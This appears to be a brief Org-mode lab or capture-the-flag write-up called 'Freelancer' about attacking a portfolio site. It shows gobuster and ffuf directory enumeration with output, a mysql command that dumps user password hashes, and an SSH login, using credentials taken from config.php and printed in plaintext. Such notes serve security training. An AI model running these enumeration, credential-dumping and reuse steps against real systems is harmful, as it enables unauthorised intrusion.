 #+title: Freelancer
#+author: gabriel

William, as a freelance developer, showcases his completed projects and tasks in his portfolio. Your company is considering working with William; however, before initiating the collaboration, you want to ensure that the developer is reliable and writes secure code.

* initial scan
#+begin_src sh
gobuster dir --url http://williamtaylor.hv -w /usr/share/wordlist
s/SecLists/Discovery/Web-Content/raft-medium-directories.txt
#+end_src

#+begin_src sh
[+] Url:                     http://williamtaylor.hv
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-med
ium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 317] [--> http://williamtaylor.hv/js/]
/css                  (Status: 301) [Size: 318] [--> http://williamtaylor.hv/css/]
/img                  (Status: 301) [Size: 318] [--> http://williamtaylor.hv/img/]
/projects             (Status: 301) [Size: 323] [--> http://williamtaylor.hv/projects/]
/vendor               (Status: 301) [Size: 321] [--> http://williamtaylor.hv/vendor/]
/server-status        (Status: 403) [Size: 281]
#+end_src

*at /projects* ->
#+begin_src sh
[23:41][]~ ✮ ffuf -u http://williamtaylor.hv/projects/FUZZ -w /usr/share/wordlists/S
ecLists/Discovery/Web-Content/raft-large-files.txt -s
.htaccess
.
.html
.php
.htpasswd
.htm
.htpasswds
.htgroup
wp-forum.phps
.htaccess.bak
.htuser
.ht
.htc
.htaccess.old
.htacess
#+end_src

*command line php here* ->
http://williamtaylor.hv/devtools/


*database usage after found the credentials in config.php file* ->
#+begin_src sh
echo 'USE mysql; SELECT User,Password FROM user;' | mysql -u william -pwt-devx-1
#+end_src

*ssh login* ->
: ssh william@williamtaylor.hv


: william:wt-devx-1
